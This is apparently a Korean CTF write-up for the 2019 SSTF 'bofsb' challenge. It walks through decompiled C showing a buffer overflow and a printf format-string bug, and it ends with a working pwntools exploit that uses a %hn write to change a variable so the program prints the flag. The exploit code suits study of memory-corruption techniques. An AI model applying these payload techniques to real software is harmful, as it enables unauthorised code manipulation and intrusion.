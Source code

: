 ```yaml
---
title: "2019 SSTF bofsb"
date: 2020-1-6
ctf: SSTF CTF
layout: post
published : false
---
```


32비트 바이너리다. 메인은 1,2 입력받아서 각각 format에 Black, White 저장해준다. 그리고 name 주소를 magic code라면서 준다. 이름을 입력하는 곳에서는 bof가 터진다. 그리고  `printf(format);` 에서는 FSB가 터진다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-50h]
  int name; // [esp+4h] [ebp-4Ch]
  char *format; // [esp+44h] [ebp-Ch]
  unsigned int v7; // [esp+48h] [ebp-8h]

  v7 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Welcome to Othello game!");
  puts("Please select your color.");
  puts(" 1: Black");
  puts(" 2: White");
  printf(" > ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    format = "Black";
  }
  else
  {
    if ( v4 != 2 )
    {
      puts("You selected a wrong number.");
      exit(0);
    }
    format = "White";
  }
  printf("okay, please remember this magic code: %p\n", &name);
  printf("Please enter your name: ");
  __isoc99_scanf("%s", &name);
  printf("%s, your color is ", &name);
  printf(format);
  if ( playOthello(v4) )
  {
    puts("Congrats, You Win!!");
    showFlag();
  }
  else
  {
    puts("Sorry, you lose.");
  }
  return 0;
}
```

`playOthello` 함수는 v4의 값이 33이면 `showFlag` 로 가서 flag 파일을 읽어서 출력해준다. 그러면 우선 v4의 값은 1 아니면 2인데 이를 바꿔주면 된다. 

```c
_BOOL4 __cdecl playOthello(int a1)
{
  printf("\n\nLet the games Begin... Your card is %x\n", a1);
  return a1 == 33;
}
```

name은 ebp-0x4C에 있고 format은 0xC에 존재하므로 name의 크기는 0x40이다. 여기서 name을 입력받을 때 0x40 이후 4바이트를 입력하면 format을 덮을 수 있다.

name 입력할 때 format을 v5(&name)으로 덮어버린다. 그러면 `printf(format) -> printf(name)`이 될것이다. 

scanf는 공백으로 입력 값을 구분하므로 공백 없이 값을 넣어줘야한다. 

payload : 'A'*4 + "%p%p%p%p%p" + "A" * (0x40-len(전에넣었던만큼)) + p32(name)

이런식으로 넣어서 offset을 구해줄 수 있다. 그러면 0x41414141이 2번째에 나온다.

이제 AAAA 대신 v4를 넣어주고 29만큼 채운 후 `%2$hn` 으로 v4주소에 앞서 출력한 33바이트만큼을 넣어주고 64바이트만큼 채운 다음에 &name을 넣어주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./bofsb')
p = process('./bofsb')

p.sendlineafter('>','1')
p.recvuntil(': ')
name = int(p.recvline(),16)
v4 = name - 4
log.info('name addr : ' + hex(name))
log.info('v4 : ' + hex(v4))
'''
payload = 'A'*4
payload += '%p%p%p%p%p%p'
payload += 'A'*(0x40-len(payload))
payload += p32(name)
'''
payload = p32(v4)
payload += '%{}c'.format(33-4)
payload += '%{}$hn'.format(2)
payload += 'B'*(64-len(payload))
payload += p32(name)
p.sendlineafter(':',payload)

p.interactive()
```






